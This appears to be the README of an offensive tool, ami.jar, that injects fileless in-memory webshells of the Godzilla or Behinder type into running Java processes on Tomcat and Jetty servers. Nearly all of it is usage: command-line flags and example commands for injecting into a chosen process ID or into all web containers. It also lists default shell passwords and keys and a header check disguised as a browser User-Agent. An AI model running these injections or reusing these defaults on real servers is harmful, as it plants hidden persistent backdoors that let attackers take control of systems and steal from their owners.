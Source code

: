 # Agent Memshell Injector

## Usage

```shell
Agent Memory-Shell Injector

Usage:
    -h, --help                  show the help doc
    -v, --version               print the version
    -l, --list                  List all jvm
    -i, --inject [pid]          inject target java process, use 'all' to auto-inject
    -d, --detach [pid]          uninstall agent memory-shell, use 'all' to auto-uninstall
    -t, --type [type]           Shell Type, available type [Godzilla(default), Behinder]
    -p, --password [password]   Shell password (Default c5e3ae619d4685160c2cb70c6d86f7c8)
    -k, --key [key]             Shell key, only work for Godzilla (Default fc80fa936982b2fb5c333dd2b9c5cd02)
    -u, --url                   URL Pattern (Default /*)
    -hk, --header-key [hk]      Memory shell header check, header name (Default User-Agent)
    -hv, --header-value [hv]    Memory shell header check, header value (Default "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.19.2171.71 Safari/537.36")

Example:
    1. Print the help doc:
        java -jar ami.jar -h
    2. Print the version:
        java -jar ami.jar -v
    3. List all jvm process:
        java -jar ami.jar -l
    4. Inject memory shell into target:
        java -jar ami.jar -i 100[or use all to auto-inject web container]
    5. Uninstall memory shell:
        java -jar ami.jar -d 100[or use all to auto-uninstall from web container]
    6. Specify memory shell url pattern:
        java -jar ami.jar -i 100 -u "/action/*"
    7. Specify memory shell header name and value:
        java -jar ami.jar -i 100 -hk "Referer" -hv "Memory Shell!"
```

> `URL Pattern` is not AVAILABLE now, always bind to `/*`, and memshell may have lower priority than regular service.

## Support

### Connector

- **Godzilla**
- **Behinder**

### Web App

- **Tomcat base**
- **Jetty base**

> Pid = 1 still work(AMI Version >= 1.0.2).